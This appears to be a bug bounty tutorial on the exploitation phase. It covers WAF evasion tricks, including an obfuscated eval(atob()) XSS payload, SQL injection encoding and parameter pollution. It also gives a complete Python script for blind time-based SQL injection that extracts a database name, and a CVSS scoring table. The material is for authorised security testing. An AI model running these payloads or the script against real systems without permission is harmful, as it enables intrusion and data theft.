

## 🎯 Phase Overview
Exploitation in bug bounty is strictly focused on proving the maximum impact of a vulnerability while remaining non-destructive. The goal is to build a clear, repeatable Proof of Concept (PoC) script that triagers can run to verify the security flaw.



---

## 🛡️ 1. WAF & Filter Evasion

Modern applications are protected by Web Application Firewalls (e.g. Cloudflare, AWS WAF, Akamai). To prove impact, we need to bypass signature-based blocking.

### A. Obfuscation & Encoding
WAF signatures can often be bypassed by changing the format of the payload:

*   **Double URL Encoding**: If the server performs URL decoding twice, double-encode parameters to bypass inspection:
    *   `/` -> `%2f` (Single URL) -> `%252f` (Double URL)
*   **Alternative Character Encodings**: For SQLi or XSS, use Unicode representations, HEX, or base64 functions:
    *   *SQLi*: `UNION SELECT CHAR(114, 111, 111, 116)` (MySQL)
    *   *XSS*: `<svg onload=eval(atob('YWxlcnQoMSk='))>`

### B. Request Smuggling / Fragmentation
Manipulate HTTP headers or body layout to hide the payload from the WAF while presenting it to the backend server:

*   **HTTP Request Smuggling**: Abuse differences in parsing `Content-Length` and `Transfer-Encoding: chunked` headers between reverse proxies and backend servers.
*   **HTTP Parameter Pollution (HPP)**: Pass multiple parameters with the same name:
    *   `?id=1&id=UNION&id=SELECT...` (Some WAFs validate only the first `id` parameter while backend joins them).

---

## 💻 2. Developing Professional PoC Scripts

A professional PoC is short, reliable, and does not require complex dependencies. Python is the industry standard.

### Example: Blind Time-based SQLi PoC
```python
#!/usr/bin/env python3
import requests
import time
import sys

target_url = "https://target.com/api/search"
alphabet = "abcdefghijklmnopqrstuvwxyz0123456789_-"

def check_char(pos, char):
    # Injection payload designed for MySQL
    payload = f"' AND IF(SUBSTRING((SELECT database()),{pos},1)='{char}',SLEEP(5),0)--"
    params = {"q": payload}
    
    start_time = time.time()
    try:
        r = requests.get(target_url, params=params, timeout=10)
    except requests.exceptions.ReadTimeout:
        return True # Timeout confirms character match
        
    elapsed = time.time() - start_time
    return elapsed >= 4.5

print("[*] Enumerating database name...")
db_name = ""
for i in range(1, 20):
    matched = False
    for char in alphabet:
        if check_char(i, char):
            db_name += char
            print(f"[+] Found char: {db_name}")
            matched = True
            break
    if not matched:
        break

print(f"[+] Database Name: {db_name}")
```

---

## 📊 3. CVSS v3.1 / v4.0 Severity Rating

We use the Common Vulnerability Scoring System (CVSS) to mathematically calculate the severity of a bug:

| Metric | Description | Value Choices |
|---|---|---|
| **Attack Vector (AV)** | Attacker location required | Network (N) / Adjacent (A) / Local (L) / Physical (P) |
| **Attack Complexity (AC)** | Conditions out of attacker's control | Low (L) / High (H) |
| **Privileges Required (PR)** | Level of privileges needed | None (N) / Low (L) / High (H) |
| **User Interaction (UI)** | Action required by victim | None (N) / Required (R) |
| **Scope (S)** | Affects resources outside security authority | Unchanged (U) / Changed (C) |
| **Impact (C/I/A)** | Confidentiality, Integrity, Availability loss | None (N) / Low (L) / High (H) |

### Severity Scale:
*   **Low**: 0.1 - 3.9
*   **Medium**: 4.0 - 6.9
*   **High**: 7.0 - 8.9
*   **Critical**: 9.0 - 10.0
